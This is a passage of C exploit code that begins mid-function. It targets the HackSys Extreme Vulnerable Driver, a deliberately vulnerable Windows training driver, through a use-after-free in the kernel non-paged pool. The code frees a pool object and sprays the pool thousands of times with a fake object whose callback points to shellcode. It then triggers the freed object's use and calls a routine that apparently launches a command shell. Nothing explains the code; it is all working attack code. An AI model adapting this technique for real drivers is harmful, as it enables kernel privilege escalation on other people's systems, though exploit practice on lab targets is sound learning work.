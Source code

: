 ```c
		NULL,
		OPEN_EXISTING,
		NULL,
		NULL);

	if (hDevice == INVALID_HANDLE_VALUE) {
		printf("cannot open i/o device");
		return false;  
	}
	DWORD recvBuf;

	// allocate memory in non_paged pool
	DeviceIoControl(hDevice,                       // device to be queried
		HEVD_IOCTL_ALLOCATE_UAF_OBJECT_NON_PAGED_POOL, // operation to perform
		NULL, 0,                       // no input buffer
		NULL, 0,
		&recvBuf,                         // # bytes returned
		NULL);          // synchronous I/O

	// free it
	DeviceIoControl(hDevice,                       // device to be queried
		HEVD_IOCTL_FREE_UAF_OBJECT_NON_PAGED_POOL, // operation to perform
		NULL, 0,                       // no input buffer
		NULL, 0,
		&recvBuf,                         // # bytes returned
		NULL);          // synchronous I/O

	printf("make a fake object in pool");

	PUSE_AFTER_FREE_NON_PAGED_POOL faked = (PUSE_AFTER_FREE_NON_PAGED_POOL)malloc(sizeof(USE_AFTER_FREE_NON_PAGED_POOL));

	RtlFillMemory((PVOID)faked->Buffer, sizeof(faked->Buffer), 0x41);
	faked->Buffer[sizeof(faked->Buffer) - 1] = '\0';

	faked->Callback = &Shellcode;

	printf("heap spary!!!");
	for (int i = 0; i < 5000; ++i) {
		// free it
		DeviceIoControl(hDevice,                       // device to be queried
			HEVD_IOCTL_ALLOCATE_FAKE_OBJECT_NON_PAGED_POOL, // operation to perform
			faked, 0x60,                       // no input buffer
			NULL, 0,
			&recvBuf,                         // # bytes returned
			NULL);           // synchronous I/O
	}

	// free it
	DeviceIoControl(hDevice,                       // device to be queried
		HEVD_IOCTL_USE_UAF_OBJECT_NON_PAGED_POOL, // operation to perform
		NULL, 0,                       // no input buffer
		NULL, 0,
		&recvBuf,                         // # bytes returned
		NULL);          // synchronous I/O

	CreateCmd();

	return 0;
}

```
